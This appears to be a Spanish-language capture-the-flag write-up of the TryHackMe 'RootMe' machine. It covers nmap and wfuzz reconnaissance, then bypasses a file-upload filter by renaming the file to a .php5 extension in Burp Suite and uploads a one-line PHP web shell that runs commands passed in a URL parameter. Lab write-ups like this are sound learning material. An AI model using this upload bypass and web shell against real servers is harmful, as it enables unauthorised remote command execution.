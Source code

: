 # RootMe-THM
## Máquina RootMe de TryHackMe en Español
<p align="center">
  <img src='https://github.com/user-attachments/assets/0eff2b42-89aa-4a0a-8bfa-998bc57b21b1'></img>
</p>
"RootMe" es una máquina en TryHackMe diseñada para desafiar tu ingenio y creatividad al pensar como un atacante. Con un enfoque didáctico, esta máquina es ideal tanto para principiantes como para usuarios de nivel intermedio.
Utilizamos una variedad de herramientas fundamentales: Nmap, Wfuzz, Wappalyzer, Curl, Netcat, Burp Suite, etc.

-------------------------------------------
## Fase de Reconocimiento
Realizar un reconocimiento sirve para comprender el entorno objetivo. En la máquina "RootMe" de TryHackMe, comenzamos con la fase de Reconocimiento para identificar qué servicios están expuestos y qué puntos de entrada podrían ser explotados.
El comando `ping` para verificar que la máquina objetivo está en línea y responde a una traza ICMP
```
ping -c 1 10.10.244.159

PING 10.10.244.159 (10.10.244.159) 56(84) bytes of data.
64 bytes from 10.10.244.159: icmp_seq=1 ttl=61 time=185 ms
```
El resultado muestra que la máquina está activa, con un `TTL` de `61`, lo que indica que es muy probablemente un sistema Linux. Vamos a identificar los puertos abiertos en la máquina utilizando `nmap`.
```
nmap -p- --open -sS --min-rate 2000 -vvv -n -Pn -oN rmPorts 10.10.244.159

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 61
80/tcp open  http    syn-ack ttl 61
```
Este comando realiza un escaneo completo de todos los puertos `-p-`, enfocándose solo en aquellos que están abiertos `--open`. Además, el uso de -Pn desactiva el escaneo de host y `--min-rate 2000` asegura un escaneo un poco más rápido.
- Puerto 22/tcp: Servicio SSH
- Puerto 80/tcp: Servicio HTTP

Los puertos abiertos (22 y 80) en la máquina "RootMe", se debe obtener más detalles sobre los servicios que están corriendo en esos puertos. Esto nos permitirá identificar versiones específicas que podrían tener vulnerabilidades conocidas.
```
nmap -p22,80 -sCV -oN rmVersion 10.10.244.159

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: HackIT - Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Este comando escanea los puertos 22 y 80, utilizando scripts estándar `-sC` y detección de versiones `-sV`. Dado que el puerto 22 está abierto, se puede investigar más sobre posibles credenciales para SSH, pero el foco principal será investigar el servicio HTTP en el puerto 80.

----------------------------
## Fase de Enumeración
Enfocado en el puerto 80, que aloja un servidor web. Usando `Wappalyzer` se detecto que la aplicación web está construida con `PHP` y corre sobre un servidor `Apache`.
<p align="center">
  <img src='https://github.com/user-attachments/assets/bd48cefc-6700-4fdc-bbd2-1db71ae98a35'></img>
</p>
Igualmente al inspeccionar la página con las herramientas de desarrollo del navegador, encontramos una cookie de sesión llamada `PHPSESSID`, que te puede confirmar el uso de `PHP` en la aplicación.
<p align="center">
  <img src='https://github.com/user-attachments/assets/28b45b91-430d-4e32-aa10-8b70c413febd'></img>
</p>
Para encontrar directorios ocultos en el servidor, utilicé la herramienta de fuzzing `wfuzz` que nos permite hacer fuerza bruta para descubrir recursos no visibles desde la interfaz pública del sitio

```
wfuzz -c --hc=404 -t 15 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.244.159/FUZZ

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                    
=====================================================================
000000164:   301        9 L      28 W       316 Ch      "uploads"                              
000000550:   301        9 L      28 W       312 Ch      "css"
000000953:   301        9 L      28 W       311 Ch      "js"
000005520:   301        9 L      28 W       314 Ch      "panel"  
```
Una explicacion de Explicación del Comando de `Wfuzz`:
`-c` muestra la salida en colores, `--hc=404` filtra las respuestas que devuelven un código HTTP 404, `-t 15` usa 15 hilos para realizar las solicitudes en paralelo, acelerando este proceso, `-w` Especifica el diccionario a usar, en este caso uno que contiene nombres comunes de directorios.

Despues de investigar cada rutas encontradas `/uploads` se encontro un panel que permite la carga de archivos, lo que puede ser un punto de entrada letal si no está asegurado correctamente.
<p align="center">
  <img src='https://github.com/user-attachments/assets/eace86c6-d8d7-4c0d-8c7b-0d8c6c39623a'/>
</p>

-------------------------------------------
## Fase de Explotación
Se intenta subir un archivo `PHP`, pero respondió con un mensaje de "archivo no permitido". Me da entender que el servidor tiene un filtrado para impedir la carga de archivos con ciertas extensiones peligrosas, como `.php`.
<p align="center">
  <img src='https://github.com/user-attachments/assets/c644f5a9-c527-4ffd-b91c-a2da30ab527c'/>
</p>

Una idea seria realizar una evasión de restricciones de extensiones. En HackTricks, investigando que PHP puede ser ejecutado a través de varias extensiones no tradicionales, como `.php5`. Esto significa que incluso si el servidor bloquea la extensión `.php`, otras variantes podrían no estar restringidas. Para explotar esta posible via, intercepto la solicitud HTTP usando `Burp Suite`
<p align="center">
  <img src='https://github.com/user-attachments/assets/e0380fac-bb4b-4b06-9f79-fdff2c4a8f1c'/>
</p>
Modificando el nombre del archivo en el encabezado `Content-Disposition` a `shellico.php5`. Esta técnica de modificar la extensión en el momento del envío permite evadir la protección basada en la extensión del archivo. Con este script `RCE` en php.

```
<?php
 system($_GET["cmd"]);
?>
```
Este script permite ejecutar comandos del sistema en el servidor al pasar el parámetro `"cmd"` en la URL. La exitosa respuesta confirma que el servidor acepta y ejecuta archivos con la extensión .php5.
